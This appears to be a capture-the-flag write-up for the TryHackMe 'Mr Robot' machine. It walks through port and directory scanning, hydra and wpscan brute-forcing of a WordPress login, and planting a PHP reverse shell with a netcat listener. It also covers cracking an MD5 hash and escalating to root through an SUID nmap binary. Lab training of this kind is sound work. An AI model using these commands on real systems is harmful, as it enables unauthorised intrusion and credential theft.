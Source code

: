 ## Mr Robot CTF [THM]

Link: https://tryhackme.com/room/mrrobot

Goal: 3 keys

## nmap
```
nmap -sC -sV 10.10.44.210            
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-02 04:55 EDT
Nmap scan report for 10.10.44.210
Host is up (0.22s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.46 seconds
```
- Port 22 close
- Port 80 open
- Port 443 open

## view web [port 80]

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/cf42b083-2891-4517-88cb-18ac79e35e23)

## dirsearch
```
dirsearch -u 10.10.44.210             
                                                                               
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Target: http://10.10.44.210/

[05:22:22] Starting: 
[05:23:35] 200 -    1KB - /admin/                                           
[05:23:35] 200 -    1KB - /admin/?/login             
[05:23:37] 200 -    1KB - /admin/index                                      
[05:23:37] 200 -    1KB - /admin/index.html                                 
[05:24:53] 200 -    0B  - /favicon.ico                                              
[05:25:07] 200 -    1KB - /index.html                                                                                  
[05:25:14] 200 -  504KB - /intro                                            
[05:25:16] 200 -  309B  - /license                                          
[05:25:16] 200 -  309B  - /license.txt
[05:25:55] 200 -   64B  - /readme                                           
[05:25:55] 200 -   64B  - /readme.html                                      
[05:25:58] 200 -   41B  - /robots.txt                                                  
[05:26:08] 200 -    0B  - /sitemap                                          
[05:26:08] 200 -    0B  - /sitemap.xml.gz                                   
[05:26:08] 200 -    0B  - /sitemap.xml
[05:26:35] 200 -    1B  - /wp-admin/admin-ajax.php                   
[05:26:35] 200 -    0B  - /wp-config.php
[05:26:35] 200 -    0B  - /wp-content/                                                         
[05:26:35] 200 -    0B  - /wp-content/plugins/google-sitemap-generator/sitemap-core.php                  
[05:26:36] 200 -    0B  - /wp-cron.php
[05:26:36] 200 -    3KB - /wp-login
[05:26:36] 200 -    3KB - /wp-login.php                                     
[05:26:36] 200 -    3KB - /wp-login/                                        

Task Completed
```
- /robots.txt
- /wp-login

## robots.txt

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/c2a5b7b6-fc4c-4c46-b7d9-55dc34cc3ab4)

- fsocity.dic
- key-1-of-3.txt

## key 1

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/ebc8f0cc-d162-4bfc-b0bb-2f3353c27aec)

## download fsociety.dic

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/d40f3f58-7dc7-4171-bd82-db75b4ca66f4)

- to sort and filter duplicate
```
sort fsocity.dic | uniq > filter.txt
```

## wp-login

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/f7433ee8-b9d5-452c-a2f6-4b039608c1c1)

## hydra [bruteforce username]
```
hydra -L filter.txt -p admin 10.10.191.118 http-post-form "/wp-login.php:log=^USER^&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.191.118%2Fwp-admin%2F&testcookie=1:Invalid username" -V

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11452 login tries (l:11452/p:1), ~716 tries per task
[DATA] attacking http-post-form://10.10.191.118:80/wp-login.php:log=^USER^&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.191.118%2Fwp-admin%2F&testcookie=1:Invalid username
[ATTEMPT] target 10.10.191.118 - login "000" - pass "admin" - 1 of 11452 [child 0] (0/0)
[80][http-post-form] host: 10.10.191.118   login: elliot   password: admin
[80][http-post-form] host: 10.10.191.118   login: Elliot   password: admin
[80][http-post-form] host: 10.10.191.118   login: ELLIOT   password: admin
[ATTEMPT] target 10.10.191.118 - login "Embedded" - pass "admin" - 5489 of 11452 [child 12] (0/0)
```
- found username: elliot, Elliot, ELLIOT

## wpscan [bruteforce password]
- using username from hydra
```
wpscan --url http://10.10.245.248/wp-login -U Elliot -P filter.txt    

Interesting Finding(s):

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - Elliot / ER28-0652                                                                                             
Trying Elliot / erased Time: 00:08:34 <==============                                > (5630 / 17081) 32.96%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: Elliot, Password: ER28-0652
```
- found Username: Elliot, Password: ER28-0652

## successfully login

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/57d938ad-5b04-4a35-926e-5075a7da1656)

## setup php reverse shell
- goto editor => edit 404 template => replace with php reverse shell => update file

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/cc9fb496-64c0-4fc0-bf64-335f3d1182e9)

## setup netcat listener
- goto `http://10.10.191.118/wordpress/wp-content/themes/twentyfifteen/404.php` dont forget to open listener `nc -lnvp 1337` on terminal

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/b6020c84-067a-4f2b-8734-9bb82d14b0bf)

- `python3 -c 'import pty;pty.spawn("/bin/bash")'` upgrade shell
- `export TERM=xterm` enable clear

## cd /home/robot
- `cat password.raw-md5` `robot:c3fcd3d76192e4007dfb496cca67e13b`
- `cat key-2-of-3.txt` `Permission denied`

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/bb3fb870-6da9-4d78-b614-31155ac89681)


## crack md5 hash
```
john --format=Raw-MD5 --wordlist=/home/kali/Desktop/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
abcdefghijklmnopqrstuvwxyz (?)     
1g 0:00:00:00 DONE (2023-08-02 12:12) 5.263g/s 213221p/s 213221c/s 213221C/s bonjour1..123092
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

- found password: abcdefghijklmnopqrstuvwxyz

## switch user to robot

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/ce39eb3b-2a3d-4efa-b7b3-9ec1ec630974)

## key 2

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/8ded0f0d-6d7d-46dc-ade5-c1fe5d1a92fc)

## privilege escalation
- using SUID Commands `find / -user root -perm /4000 2>/dev/null`

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/74d1126b-baf4-4607-86d9-d01986e855c3)

- Search GTFObins for [nmap](https://gtfobins.github.io/gtfobins/nmap/) because it looks sus here.

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/45e99a78-295b-4192-9b94-9c33460b5800)

- root!

## key 3

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/b26a09eb-3d7f-4402-a63f-1bf3bf9b0089)

- PWNED! :star:
